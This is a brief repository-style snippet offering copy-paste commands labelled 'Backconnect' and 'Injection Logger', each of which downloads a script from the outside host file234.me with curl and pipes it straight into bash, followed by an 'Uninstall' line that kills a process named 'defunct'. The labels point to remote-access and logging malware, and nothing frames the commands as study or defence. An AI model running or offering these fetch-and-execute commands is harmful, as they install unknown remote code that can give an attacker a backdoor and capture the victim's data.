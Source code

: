 Backconnect
======================
bash -c "$(curl -fsSL https://file234.me/self)"

Injection Logger
======================
bash -c "$(curl -fsSL https://file234.me/z)"

Uninstall
=====================
pkill defunct
